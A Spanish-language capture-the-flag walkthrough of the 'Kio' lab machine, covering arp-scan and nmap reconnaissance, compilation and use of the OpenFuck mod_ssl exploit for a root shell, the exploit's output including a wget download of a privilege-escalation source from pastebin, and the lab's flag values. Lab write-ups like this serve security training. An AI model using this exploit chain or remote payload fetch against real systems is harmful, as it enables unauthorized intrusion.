

# Maquina KIO

<figure><figcaption></figcaption></figure>

## `RAUL ANDRES VILLAMIZAR - rvillamizar492@gmail.com`

### Barrido dispositivos en la red.

Empezamos haciendo un barrido de la red para ver que ip's tenemos disponibles y así descubrir nuestra maquina victima&#x20;

```bash
(kali㉿kali)-[~/Desktop]
└─$ ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 168.0.2.5  netmask 255.255.255.0  broadcast 168.0.2.255
        inet6 fe80::5d83:c2fb:5690:428c  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:ad:25:87  txqueuelen 1000  (Ethernet)
        RX packets 1  bytes 590 (590.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 27  bytes 3338 (3.2 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 8  bytes 480 (480.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8  bytes 480 (480.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Primero con `ifconfig` miramos nuestra ip lo cual es `168.0.2.5`

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo arp-scan -l
[sudo] password for kali: 
Interface: eth0, type: EN10MB, MAC: 08:00:27:ad:25:87, IPv4: 168.0.2.5
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
168.0.2.3       08:00:27:92:73:cb       PCS Systemtechnik GmbH
168.0.2.4       08:00:27:97:30:95       PCS Systemtechnik GmbH
168.0.2.1       52:54:00:12:35:00       QEMU
168.0.2.2       52:54:00:12:35:00       QEMU

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.698 seconds (94.89 hosts/sec). 4 responded

```

Una vez usamos `arp-scan` vemos que nos salen 4 redes 2 que son parte de la maquina y otra dos haciendo escaneo con `nmap` podemos reconocer que la ip de nuestra victima es la `168.0.2.4`

Por lo que procedemos hacerle un escaneo mas profundo a esta red.

<pre><code><strong>sudo nmap -sS -Pn -p- --open -n --min-rate 5000 168.0.2.4 -oN scan.txt
</strong><strong># Nmap 7.94SVN scan initiated Wed Oct 16 18:05:14 2024 as: nmap -sS -Pn -vvv --min-rate 5000 -p- --open -n -oN scan.txt 168.0.2.4
</strong>Nmap scan report for 168.0.2.4
Host is up, received arp-response (0.00024s latency).
Scanned at 2024-10-16 18:05:14 EDT for 2s
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     REASON
22/tcp   open  ssh         syn-ack ttl 64
80/tcp   open  http        syn-ack ttl 64
111/tcp  open  rpcbind     syn-ack ttl 64
139/tcp  open  netbios-ssn syn-ack ttl 64
443/tcp  open  https       syn-ack ttl 64
1024/tcp open  kdm         syn-ack ttl 64
MAC Address: 08:00:27:97:30:95 (Oracle VirtualBox virtual NIC)

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Oct 16 18:05:16 2024 -- 1 IP address (1 host up) scanned in 1.60 seconds

</code></pre>

Encontramos unos puertos abiertos por lo que vamos a buscar sus servicios .

```bash
 nmap -sCV -p22,80,111,139,443,1024 168.0.2.4
 Nmap 7.94SVN scan initiated Wed Oct 16 18:06:20 2024 as: nmap -sCV -p22,80,111,139,443,1024 -oN allPorts.txt 168.0.2.4
Nmap scan report for 168.0.2.4
Host is up (0.00046s latency).

PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 2.9p2 (protocol 1.99)
| ssh-hostkey: 
|   1024 b8:74:6c:db:fd:8b:e6:66:e9:2a:2b:df:5e:6f:64:86 (RSA1)
|   1024 8f:8e:5b:81:ed:21:ab:c1:80:e1:57:a3:3c:85:c4:71 (DSA)
|_  1024 ed:4e:a9:4a:06:14:ff:15:14:ce:da:3a:80:db:e2:81 (RSA)
|_sshv1: Server supports SSHv1
80/tcp   open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Test Page for the Apache Web Server on Red Hat Linux
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
111/tcp  open  rpcbind     2 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1           1024/tcp   status
|_  100024  1           1026/udp   status
139/tcp  open  netbios-ssn Samba smbd (workgroup: MYGROUP)
443/tcp  open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
| sslv2: 
|   SSLv2 supported
|   ciphers: 
|     SSL2_RC2_128_CBC_WITH_MD5
|     SSL2_DES_192_EDE3_CBC_WITH_MD5
|     SSL2_RC2_128_CBC_EXPORT40_WITH_MD5
|     SSL2_RC4_64_WITH_MD5
|     SSL2_RC4_128_EXPORT40_WITH_MD5
|     SSL2_DES_64_CBC_WITH_MD5
|_    SSL2_RC4_128_WITH_MD5
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2009-09-26T09:32:06
|_Not valid after:  2010-09-26T09:32:06
|_ssl-date: 2024-10-17T02:06:43+00:00; +3h59m59s from scanner time.
|_http-title: 400 Bad Request
|_http-server-header: Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
1024/tcp open  status      1 (RPC #100024)

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_nbstat: NetBIOS name: KIO-KID, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: 3h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct 16 18:06:44 2024 -- 1 IP address (1 host up) scanned in 23.94 seconds

```

Encontramos diferentes puertos con sus servicios por lo que empezamos a buscar vulnerabilidades revisamos en el puerto 80 pero no encontramos nada relevante en la web

<figure><figcaption></figcaption></figure>

Por medio de `gobuster` buscamos subdirectorios pero no encontramos nada importante.

buscamos en el siguiente puerto y buscando vulnerabilidades con `searchsploit` vemos que hay una de ejecución de mandos con `httpd 1.3.20`

<figure><figcaption></figcaption></figure>

Pero no nos ayudo de mucho luego buscando por Internet y por `nikto` vemos que hay una vulnerabilidad con la versión del apache `Apache/1.3.20 (Unix)`&#x20;

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Una vez clonamos este repositorio debemos instalar una librería y copilar el script que esta en c&#x20;

```bash
┌──(kali㉿kali)-[~/Hackermentor/Kio/OpenFuck]
└─$ gcc -o Exploit OpenFuck.c -lcrypto

```

Ya copilado lo ejecutamos con las indicaciones que nos dieron.

```bash
(kali㉿kali)-[~/Hackermentor/Kio/OpenFuck]
└─$ ./Exploit 0x6b 168.0.2.4 443 -c 40


*******************************************************************
* OpenFuck v3.0.32-root priv8 by SPABAM based on openssl-too-open *
*******************************************************************
* by SPABAM    with code of Spabam - LSD-pl - SolarEclipse - CORE *
* #hackarena  irc.brasnet.org                                     *
* TNX Xanthic USG #SilverLords #BloodBR #isotk #highsecure #uname *
* #ION #delirium #nitr0x #coder #root #endiabrad0s #NHC #TechTeam *
* #pinchadoresweb HiTechHate DigitalWrapperz P()W GAT ButtP!rateZ *
*******************************************************************

Connection... 40 of 40
Establishing SSL connection
cipher: 0x4043808c   ciphers: 0x80f8030
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$ 
race-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; m/raw/C7v25Xr9 -O pt 
--02:29:10--  https://pastebin.com/raw/C7v25Xr9
           => `ptrace-kmod.c'
Connecting to pastebin.com:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/plain]

    0K ...                                                    @   3.84 MB/s

02:29:11 (3.84 MB/s) - `ptrace-kmod.c' saved [4026]

ptrace-kmod.c:183:1: warning: no newline at end of file
/usr/bin/ld: cannot open output file p: Permission denied
collect2: ld returned 1 exit status
whoami
root


```

Y vemos que estamos dentro de la maquina como usuarios root le damos un poco de tratamiento la termina con `bash -i.`

```
[root@kio-kid tmp]# whoami
whoami
root

```

Ahora nos queda solo buscar las banderas, voy al directorio /home para ver que usuarios hay en la maquina.

En el directorio /home encuentro el usuario harol, John ingresamos a harol vemos que tenemos su bandera (bandera3.txt)

<figure><figcaption></figcaption></figure>

`Flag3: 9699a2a93f0d7eeb172dca2de51d3db2`

Ahora vamos al otro usuario que es john  y encontramos bandera2

<figure><figcaption></figcaption></figure>

`flag1 : 684d0624c19cac22a44a8413795368b9`

Nos dirigimos por ultimo al usuario root para ver si esta la otra flag faltante.

<figure><figcaption></figcaption></figure>

flag2 : c9b2db2dbe3d8e65485c6c348785a760

Habemos obtenido todas las banderas.
